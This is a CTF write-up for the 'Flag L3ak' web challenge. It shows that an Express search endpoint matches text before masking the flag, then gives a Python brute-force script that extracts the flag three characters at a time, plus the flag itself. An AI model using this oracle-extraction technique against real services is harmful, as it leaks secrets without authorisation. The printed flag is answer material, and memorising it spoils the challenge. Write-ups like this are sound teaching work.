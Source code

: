 ```yaml
---
title: Flag L3ak
date: 2025-07-14T21:45:51+03:00
description: Writeup for Flag L3ak [L3akCTF_2025s]
author: vikcoc
tags:
- web
draft: false
---
```

___

## Challenge Description

What's the name of this CTF? Yk what to do 😉

We are greeted by a blog page, with a search bar and a few posts.\
One post in particular, titled "Not the flag?" claims to have the flag hidden inside it.

## Intuition

Looking at the code we see it is an expressjs application, with public pages and 2 endpoints of interest:\
- `'/api/search'`
- `'/api/posts'`


Search is of particular interest for us because the lookup happens before the flag gets overwritten.
```javascript
    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));
```
Therefore we can use search to check if sequences are part of the flag.

## Solution

The solution is a brute force attack.
```python
import requests
import string

url = "http://34.134.162.213:17000/api/search"
flag = "L3AK{"

print("Start")
while True:

    found_char = False
    for char in string.printable:
        query = f"{flag[-2:]}{char}"
        body = {"query": query}
        response = requests.post(url, json=body)

        if response.status_code == 200 and "Not the flag?" in response.text:
            flag += char
            print(f"Partial flag: {flag}")
            found_char = True
            break
    
    if not found_char:
        break;

print(f"End")
```
A thing to keep in mind is that the query is only allowed to have 3 characters.
```javascript
    if (!query || typeof query !== 'string' || query.length !== 3) {
        return res.status(400).json({ 
            error: 'Query must be 3 characters.',
        });
    }
```

### Flag

`L3AK{L3ak1ng_th3_Fl4g??}`
